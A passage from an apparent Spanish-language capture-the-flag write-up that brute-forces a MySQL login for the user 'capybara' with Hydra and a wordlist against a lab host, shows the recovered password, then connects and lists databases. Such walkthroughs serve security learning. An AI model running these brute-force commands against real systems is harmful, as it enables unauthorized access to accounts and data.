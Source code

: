 Podemos ver que obtuvimos un usuario llamado `capybara` por lo que podremos probar diferentes sitios de realizar fuerza bruta, pero el unico que ha funcionado fue en `mysql`.

## Hydra

```shell
hydra -l capybara -P <WORDLIST> mysql://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-03 04:24:04
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybara   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-03 04:24:07
```

Por lo que vemos obtenemos las credenciales de `mysql`, por lo que nos conectaremos a el.

## MySQL

```shell
mysql -h <IP> -u capybara -ppassword1 --ssl=0
```

Vamos a ver que bases de datos hay:

```mysql
show databases;
```

Info:

```
+--------------------+
| Database           |
+--------------------+
| beta               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)
```
